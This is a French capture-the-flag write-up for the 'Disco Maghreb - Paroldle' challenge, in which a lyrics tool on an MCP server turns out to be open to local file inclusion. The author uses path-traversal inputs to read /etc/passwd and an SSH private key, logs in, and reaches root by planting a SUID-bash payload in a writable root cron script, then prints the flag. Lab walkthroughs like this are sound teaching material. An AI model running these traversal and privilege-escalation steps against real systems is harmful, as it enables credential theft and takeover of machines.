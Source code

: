 # Disco Maghreb - Paroldle

## Write-up

Dernier acte de notre visite chez **Disco Maghreb**. Cette fois, le serveur MCP propose un outil qui permet de récupérer les paroles de chansons de Raï.
Mais en fouillant un peu, on découvre que le service est vulnérable à une **LFI (Local File Inclusion)**. En exploitant cette faille, il est possible de récupérer une clé privée SSH, se connecter en tant que l'utilisateur **boualem**, et finalement escalader jusqu'à **root** via une tâche cron mal configurée.

---

### 1. Reconnaissance

Le serveur expose un tool :

```json
{
  "name": "get_lyrics",
  "description": "Get lyrics of your favourite rai song",
  "parameters": {
    "song_title": "str"
  }
}
```

En testant quelques valeurs simples (`"didi.txt"`, `"test"`) et grâce aux messages d'erreur, on comprend que le programme lit les paroles dans des fichiers.

---

### 2. Exploitation de la LFI

On tente différents fichiers système classiques :

- `../../etc/passwd` : on obtient le contenu de `/etc/passwd`.
    Cela confirme la vulnérabilité et nous permet de voir qu'il y a un utilisateur sur la machine: [`boualem`](https://www.jeuneafrique.com/1378776/culture/algerie-boualem-disco-maghreb-memoire-vivante-du-rai/).

Puis, sachant qu'un service SSH tourne sur la machine, on se demande si un utilisateur dispose de clés dans son répertoire `~/.ssh`.

- `../../home/boualem/.ssh/authorized_keys`: le fichier existe et contient une clé publique.
- `../../home/boualem/.ssh/id_rsa`: on récupère la **clé privée RSA** de l'utilisateur boualem, correspondante à la clé publique du fichier `authorized_keys`.

On sauvegarde la clé localement :

```bash
chmod 600 private_key
ssh -i private_key boualem@127.0.0.1
```

Nous sommes maintenant connectés sur la machine en tant que `boualem` !

---

### 3. Escalade de privilèges via cron

En fouillant, on repère dans `/etc/cron.d/health-check-disco-maghreb` une tâche exécutée chaque minute par root :

```
* * * * * /usr/local/bin/python3 /app/health-check-disco-maghreb.py >> /var/log/health-check-disco-maghreb.log 2>&1
```

Le script `/app/health-check-disco-maghreb.py` est écrivable par `boualem` :

```
-rw-rw-r-- 1 boualem boualem 334 Aug 28 14:22 health-check-disco-maghreb.py
```

Cela signifie que nous pouvons modifier ce script et injecter du code Python qui sera exécuté automatiquement par root à la prochaine minute.

---

### 4. Exploitation du cron

On édite le script et on ajoute par exemple :

```python
import os
os.system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash")
```

Au bout d'une minute, le cron s'exécute et crée un binaire SUID root.
Il suffit ensuite de lancer :

```bash
/tmp/bash -p
```

Et nous voilà **root** sur la machine. On peut ensuite lire le flag dans `/flag.txt` !

## Flag

`flag-d1sc0_m4ghreb_f0r3v3r-5k2TT5iz`

